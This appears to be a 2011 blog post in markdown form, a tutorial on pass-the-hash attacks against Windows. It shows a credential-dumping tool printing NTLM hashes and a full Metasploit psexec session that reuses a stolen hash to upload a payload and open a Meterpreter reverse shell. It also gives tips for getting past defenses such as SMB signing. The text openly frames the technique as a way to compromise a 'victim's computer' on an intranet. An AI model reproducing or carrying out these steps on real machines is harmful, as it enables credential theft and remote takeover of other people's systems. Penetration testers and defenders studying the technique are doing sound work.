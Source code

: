```yaml
---
layout: blog-post
title: "Pass the Hash Exploitation on Windows"
excerpt: Pass the Hash Exploitation on Windows
disqus_id: /2011/08/16/passthehash/
location: Delhi, India
time: 10:00 PM
categories:
- Hacking
- Windows
- Pass The Hash
---
```



A Windows 2000/NT/XP/Vista/7 system can be compromised with a technique called [pass the Hash](http://en.wikipedia.org/wiki/Pass_the_hash). For us to exploit this technique, we must know some basica.

In a Windows based authentication such as NTLM or Kerberos, the password is never sent as cleartext. Instead the password is transformed into a hash(LM or NTLM Hash) and then sent to the server. The server then compares this hash against the stored hash and grants/denies the access.

There are two types of hashes:

* [LM hash, LanMan, or LAN Manager hash](http://en.wikipedia.org/wiki/LM_hash): It is the obsolete hashing algorithm. Refer to the link to see how it is computed.
* NTLMv2 Hash: This is latest hashing method used on Windows 7/Vists/2008 systems.

Whenever a domain user logs on to the client computer, the hash of its password is stored on the client so that user can be authenticated in future even if the domain controller is not available. There are two types of caching, which is mentioned [here](http://support.microsoft.com/kb/913485).

Now lets suppose, somebody has used your office laptop to log in and access some intranet based sites. Then that user's password hash is stored in your system.

You can retrieve these hashes using a utility such as [PSH Toolkit](http://oss.coresecurity.com/projects/pshtoolkit.htm). It contains a utility **whosthere** which can dump the hashes.

{% highlight text %}
C:\Documents and Settings\madhur\Desktop\pshtoolkit_v1.4\whosthere-alt>whosthere-alt.exe
WHOSTHERE-ALT v1.1 - by Hernan Ochoa (hochoa@coresecurity.com, hernan@gmail.com)
 - (c) 2007-2008 Core Security Technologies
This tool lists the active LSA logon sessions with NTLM credentials.
use -h for help.
the output format is: username:domain:lmhash:nthash

madhur:BACKTRACK:123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
BACKTRACK$:WORKGROUP:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
{% endhighlight %}

Once you have grabbed the hash, you can anytime compromise the victim's computer using metaspoilt's psexec module, if you know the IP address, which is not difficult considering an intranet evnironment.

{% highlight text %}
msf exploit(psexec) > use windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.13
RHOST => 192.168.0.13
msf exploit(psexec) > set LHOST 192.168.0.14
LHOST => 192.168.0.14
msf exploit(psexec) > set SMBDomain backtrack
SMBDomain => backtrack
msf exploit(psexec) > set SMBUser madhur
SMBUser => madhur
msf exploit(psexec) > set SMBPass 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
SMBPass => 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
msf exploit(psexec) > exploit

[*] Started reverse handler on 192.168.0.13:4444 
[*] Connecting to the server...
[*] Authenticating to 192.168.0.14:445|backtrack as user 'madhur'...
[*] Uploading payload...
[*] Created \wttVwMnA.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (nkgYMOZy - "MrDoYCoO")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \wttVwMnA.exe...
[*] Sending stage (749056 bytes) to 192.168.0.14
[*] Meterpreter session 6 opened (192.168.0.13:4444 -> 192.168.0.14:1035) at 2011-08-16 22:16:47 +0530

meterpreter > 
{% endhighlight %}

If you have trouble exploiting the target system, then it might be some security enabled your Administrator. For ex

* Simple file sharing is disabled (Windows XP)
* Windows UAC drops all the Administrator privileges from the SAT (Security Access Token) for REMOTE connections that are using LOCAL accounts. This restriction prevents all remote administrative functions such as connecting to administrative shares (C$, etc) installing services or launching a new process (psexec)
* "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" on the target systems and setting the value of "RequireSecuritySignature" to "0".

References:
* [http://oss.coresecurity.com/pshtoolkit/doc/index.html](http://oss.coresecurity.com/pshtoolkit/doc/index.html)
* [https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html](https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html)

